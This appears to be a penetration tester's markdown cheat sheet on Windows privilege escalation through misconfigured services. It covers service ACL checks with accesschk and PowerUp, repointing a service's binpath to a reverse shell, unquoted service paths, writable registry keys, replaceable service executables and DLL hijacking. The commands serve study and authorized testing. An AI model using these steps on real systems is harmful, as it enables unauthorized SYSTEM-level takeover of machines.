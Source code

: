 ```yaml
---
category: Uncategorized
tags: []
---
```

If a service runs with a SYSTEM Privs and are misconfigured, exploiting them may lead to command execution with SYSTEM privilege as well.

### Service Commands
```powershell
# Query the configuration of a service
sc.exe qc <name>

# Query the current status of a service
sc.exe query <name>

# Modify a configuration option of a service
sc.exe config <name> <option>= <value>

# Start/Stop a service
net start/stop <name>
```

# Service Misconfigurations
### Insecure Service Permissions
Each service has an ACL which defined certain service-specific permission
```powershell
# Innocuous Service Permission
SERVICE_QUERY_CONFIG
SERVICE_QUERY_STATUS

# Usefull Service Permission to check weather service is starable or stopable by the user
SERVICE_STOP
SERVICE_START

# Dangerous Service
SERVICE_CHANGE_CONFIG
SERVICE_ALL_ACCESS
```
- If user has permission to change service configuration with SYSTEM priv, the change the executable path with our own
- We need to have permission to start/stop the service, to be able to escalate prvileges
Check ACLs for a service
```
.\accesschk.exe /accepteula -uwcqv <user> <service>
```
- Change binary path of a service
```powershell
sc.exe config <service> binpath= "\"C:\reverse_shell.exe\""

# start service to start the reverse shell
net start <service>
```
- Using powershell to enumerate the pathnames
```powershell
Get-WmiObject -Class win32_service | select-object pathname
```
- PowerUp can be used to query services whose binpath can be mofified by the current user:
```powershell
Get-ModifiableServiceFile -Verbose
```
- PowerUp can be used to query services whose configuration can be changed by the current user:
```powershell
Get-ModifiableService -Verbose
```

### Unquoted Service Path
```powershell
# runs someProgram.exe
"C:\Program Files\Some Dir\SomeProgram.exe"

C:\Program Files\Some Dir\SomeProgram.exe
# Should run Program first with two argument Files\Some and Dir\Someprogram.exe
# windows resolve this ambiguity by checking each possibiltity in turn.
# Execution order:
# 1. "C:\Program"
# 2. "C:\Program Files\Some"
# 3. "C:\Program Files\Some Dir\SomeProgram.exe"
```
- This can be exploited to check which directory can we access and put our reverse shell there with write access.
- To check write access for each of these directories
```powershell
.\acchesschk -quvdw "C:\"
.\acchesschk -quvdw "C:\Program Files\"
.
.
.
```
- After writeable path is found. Copy the reverse shell.
```
# "C:\Program Files\Some"
net start
```
- We get a reverse shell
- PowerUp script can be used to search for unquoted service paths:
```powershell
Get-ServiceUnquoted -Verbose
```
### Weak Registry Permission
- Stores data for each service
- Registries have ACL
- ACLs can be misconfigured
- may be possible to service config via registry.
```powershell
# Verify Writable registry keys:
Get-Acl HKLM:\System\CurrentControlSet\Services\regsvc | select-object -Property *

# Verify writibility via accesschk
.\accesshk -quv
```
```powershell
# Query the registry key
reg query <registry>

# Overwrite the exectable
reg add <registry> /v <variable> /t <data_type> /d <data> /f

# restart the service
net start regsvc
```

### Insecure Service Executable
If the original executable is modifiable by our user.
```powershell
# Overwrite the service executable with our reverse shell.
net start <service>
```

### DLL Hijacking
- A DLL is missing from the system.
- Our user has write permission on the directory where the DDL is looked for by the system. 
- DDL is executed with the same privilege as the process that imports the DLL
```powershell
# Test which service we can stop and start
# copy over to our system
# Use procmon64 to analyze missing DLL
# Check if that path is writable or not
# Place reverse shell there
net start <service>
```

